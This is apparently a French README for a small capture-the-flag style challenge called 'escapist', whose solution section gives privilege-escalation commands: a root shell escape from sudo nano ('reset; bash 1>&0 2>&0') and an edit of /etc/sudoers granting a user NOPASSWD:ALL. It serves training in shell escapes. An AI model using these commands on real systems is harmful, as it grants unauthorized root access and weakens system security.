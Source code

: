 # escapist

Pour lancer le premier challenge : sudo ./Challengex.sh\

L'objectif est de réussir à exécuter le binaire "escape" dans chaque épreuve









# Solution

Challenge 1 : nice /bin/escape \

Challenge 2 : sudo /usr/bin/nano readme \
	      ctrl+r ctrl+x \
	      reset; bash 1>&0 2>&0\
		puis exécuter bin/escape\

OU sudo /usr/bin/nano /etc/sudoers et modifier : PrivEscape ALL=(ALL) NOPASSWD:ALL puis exécuter bin/escape

